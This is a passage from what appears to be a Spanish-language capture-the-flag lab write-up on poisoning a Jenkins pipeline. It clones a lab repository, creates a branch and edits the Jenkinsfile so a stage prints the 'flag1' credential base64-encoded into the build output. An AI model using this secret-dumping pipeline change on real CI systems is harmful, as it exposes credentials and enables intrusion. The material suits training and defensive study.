 ```
        always { 
            cleanWs()
        }
    }
}


```

Vamos a modificar el archivo para reemplazarlo y poder obtener el flag, para ello clonamos el repo nos solicita las credenciales

```shell
git clone http://lab.toadsec.xyz:3000/Wonderland/white-rabbit.git
```

![11](img/11.png)

Accedemos al repo 

![12](img/12.png)

Creamos  un branch antes de modificar el archivo

```shell
git checkout -b noobs
git branch
```

Modifcamos el archivo Jenkinsfile

```
pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
        FLAG = credentials("flag1")
    }

    stages {
        stage ('Display Flag') {
            steps {
                sh """
                    echo $FLAG | base64
```